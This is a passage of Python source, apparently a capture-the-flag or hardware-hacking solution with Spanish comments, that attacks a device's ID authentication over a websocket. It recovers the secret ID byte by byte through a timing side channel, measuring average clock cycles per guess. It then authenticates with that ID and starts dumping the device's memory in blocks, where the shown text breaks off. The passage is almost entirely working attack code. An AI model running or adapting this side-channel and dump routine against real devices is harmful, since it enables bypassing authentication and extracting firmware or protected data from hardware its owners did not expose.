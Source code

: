 ```py
    el número de ciclos medios para un prefix dado.
    """
    cycles_list = []
    async with websockets.connect(URL) as ws:
        # RESET, INIT, SET_CLOCK
        await send_packet(ws, b'\x55\x00\xC1\x00')
        await send_packet(ws, make_packet(0x03, b'\x00'))
        await send_packet(ws, make_packet(0x05, b'\x00\x12\x7A\x00'))

        for _ in range(SAMPLE_COUNT):
            full_id = prefix.ljust(ID_LEN, b'A')
            pkt = make_packet(0x34, full_id)
            try:
                _, cycles = await send_packet(ws, pkt)
                cycles_list.append(cycles)
            except:
                continue
    return statistics.mean(cycles_list) if cycles_list else -1

async def find_id() -> bytes:
    discovered = b''
    for pos in range(ID_LEN):
        print(f"[+] Descifrando byte {pos+1}/{ID_LEN}")
        scores = []
        for c in ALL_CHARS:
            guess = discovered + c.encode()
            avg = await measure_cycles(guess)
            scores.append((c, avg))
            print(f"    {guess.decode():<{pos+1}} -> {avg:.2f} ciclos")
        scores.sort(key=lambda x: -x[1])
        best, best_val = scores[0]
        discovered += best.encode()
        print(f"[!] Byte {pos+1} = '{best}' (avg {best_val:.2f} ciclos)\n")
    return discovered

async def authenticate_and_dump(final_id: bytes):
    try:
        async with websockets.connect(URL) as ws:
            # 1) RESET
            await send_packet(ws, b'\x55\x00\xC1\x00')
            # 2) COMM_INIT
            pkt = make_packet(0x03, b'\x00')
            resp, _ = await send_packet(ws, pkt)
            print('INIT resp:', resp.hex())
            # 3) SET_CLOCK a 8MHz
            freq_args = bytes([0x00, 0x12, 0x7A, 0x00])
            pkt = make_packet(0x05, freq_args)
            resp, _ = await send_packet(ws, pkt)
            print('FREQ resp:', resp.hex())
            # 4) ID_AUTHENTICATION
            pkt = make_packet(0x34, final_id)
            resp, _ = await send_packet(ws, pkt)
            print('AUTH resp:', resp.hex())
            if resp[1] != 0x50:
                print(" AUTH falló, ID incorrecto.")
                return
            print(f" AUTH exitosa con ID: {final_id.decode()}")
            # 5) READ en bloques de 0x400
            addr = 0x0370
            while addr <= 0x0EDBFF:
                a = addr.to_bytes(3, 'little')
                pkt = make_packet(0x69, a + b'\x00')
                data, _ = await send_packet(ws, pkt)
```